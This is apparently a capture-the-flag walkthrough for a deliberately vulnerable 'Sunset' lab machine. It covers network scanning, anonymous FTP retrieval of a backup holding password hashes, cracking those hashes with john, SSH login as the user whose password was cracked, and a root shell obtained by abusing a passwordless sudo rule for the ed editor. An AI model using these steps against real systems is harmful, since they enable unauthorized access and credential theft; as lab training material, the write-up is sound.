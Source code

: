 # Sunset

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.119	08:00:27:d3:ce:c3	PCS Systemtechnik GmbH
192.168.56.100	08:00:27:29:ed:8e	PCS Systemtechnik GmbH
```

The ip address is `192.168.56.119`, let's scan it.


```bash
root@kali: nmap -v -p21,22,80,8080 -sV -sC -oN nmap.out 192.168.56.119

Nmap scan report for 192.168.56.119
Host is up (0.00024s latency).

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.119:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
80/tcp   closed http
8080/tcp closed http-proxy
MAC Address: 08:00:27:D3:CE:C3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the only ports are `21` and `22`, so let's check ftp first :

we are able to connect to ftp via user `anonymous` :

```bash
tp 192.168.56.119                                    
Connected to 192.168.56.119.
220 pyftpdlib 1.5.5 ready.
Name (192.168.56.119:root): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
229 Entering extended passive mode (|||41299|).
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup

ftp> get backup
local: backup remote: backup
229 Entering extended passive mode (|||36815|).
125 Data connection already open. Transfer starting.
100% |******************************************************************************************|  1062      179.86 KiB/s    00:00 ETA
226 Transfer complete.
```

inside backup file we see this 5 hashes, because it is some how not in a good format

i just copied and paste each line in a new file call `user.txt`, the hash type can be identified with `hashid` :

```bash
root@kali: hashid -mj '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'

Analyzing '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'
[+] SHA-512 Crypt [Hashcat Mode: 1800][JtR Format: sha512crypt]
```

## 2.Gaining Shell

Just use `john` to crack the password :

```bash
root@kali: john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt user.txt 

Using default input encoding: UTF-8
Loaded 5 password hashes with 2 different salts (2.5x same-salt boost) (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
space            (space)     
cheer14          (sunset)     
sky              (sky)  
```


try different users, but you can only login with user `sunset` :

```bash
root@kali: ssh sunset@192.168.56.119
sunset@192.168.56.119's password: 
Linux sunset 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 28 20:52:38 2019 from 192.168.1.182

sunset@sunset:~$ id
uid=1000(sunset) gid=1000(sunset) groups=1000(sunset),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
```

## 3.Privilege Escalation

Check sudo permissions on this user :

```bash
sunset@sunset:~$ sudo -l
Matching Defaults entries for sunset on sunset:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
```

so we can only run `ed` binary with no password :

```bash
unset@sunset:~$ sudo /usr/bin/ed
id
?
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cd /root

# cat flag.txt
25d7ce0ee3cbf71efbac61f85d0c14fe
```

This is how you can get root on this machine :)
